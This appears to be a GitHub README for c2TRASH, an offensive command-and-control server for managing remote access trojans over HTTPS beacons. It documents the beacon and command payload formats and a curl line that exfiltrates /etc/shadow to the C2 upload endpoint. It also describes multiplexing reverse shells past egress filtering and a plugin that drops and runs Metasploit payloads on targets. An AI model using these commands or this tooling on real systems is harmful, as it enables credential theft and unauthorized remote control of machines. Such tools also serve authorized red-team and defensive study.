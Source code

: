 c2TRASH - C2 Tool for Remote Access Shells (Hopefully)
======
**c2TRASH** is a simple HTTPS beaconing C2 server that can manage RATs that follow the c2TRASH protocol
## The Protocol

HTTPS with JSON payloads

### Beacons

Something like (example writen in python)

```
{
        "usr":getpass.getuser(),
        "hostname":socket.gethostname(),
        "cwd": os.getcwd(),
        "time": time.time(),
        "beacon":True
}
```

### Command Payloads

Something like

```
{
    "ls":"-al"
}

```

or 
```
{
    "download":"/etc/passwd"
}
```

## Features

### Static File Server

Files stored in `<install-dir>/static` can be downloaded from https://<ip>:<port>/filename

### Upload Endpoint

File uploads are accepted to aid in exfiltration. This is used by the `download` c2TRASH command, but can be invoked directly:

Example:

```
curl -k -F '/etc/shadow=@/etc/shadow' https://<c2TRASH>/upload.php
```

### Flexible shells

Shell primitives are stored in `<install-dir>/shell` and are custimized when thrown to contain the current LHOST and LPORT values.

These shells can be customized or added to at runtime without stopping the c2TRASH server.

### Shell management

Even if you aren't using \*TRASH clients, you can still use c2TRASH to manage your shells.

The `listen` `catch` commands are helpers that can be called directly to catch raw TCP shells from other tools (or netcat).

c2TRASH uses iptables and tmux shenanigans to multiplex an arbitrary number of these raw shells over the the external port [to bypass egress filtering] on the c2TRASH server.

e.g. You can throw 100 different netcat shells to <c2TRASH>:80 and catch them all in their own new tmux session running a naive netcat listener.

### Mutiple Targets

Multiple targets can be managed by c2TRASH at the same time. Commands not recognized by c2TRASH are sent to the currently selected target to be executed. The result is a meterpreter-like shell that is A) encrypted B) beaconing (with a customizable interval that can be changed with `set beacon`)

### Supported Commands

```
Basic Commands:

set <var> <value>  -    set a configuration value on the the server
                            Example: set target 192.168.100.1
show <var>         -    show the current value of a varible
                            Example: show targets
options            -    show the options that are safe to set
switch             -    set target to the most recent target (or the first target)
host-shell         -    spawn a new tmux session on the c2 host
clear              -    clear the screen
upload <file>      -    upload a file to the target
                            Example: upload /path/to/malware/bad.exe
download <file>    -    upload a file to the target
                            Example: download /etc/passwd
shell <file>       -    send the file (which contains shell commands) to the target to be executed.
                        also, prepare to catch a shell from the target in response to the commands
listen             -    interactive command to set up a naive listener
catch <RHOST> [handler_cmd] -   low level command to set up shell listeners
attach $# / $#     -    attach to the tmux session $#
sessions           -    list active tmux sessions
kill_tmux          -    kill the tmux server
kill_sessions      -    kill all tmux sessions created during this run
exit [-y]          -    exit the server safely(?)

Known Plugin Commands:
drop <msfpc-args>  -  pass MSFPC (metasploit payload creator) the args, upload file
                      to the target, execute it, and catch the shell with metasploit
```


### Stability?

Ha, no


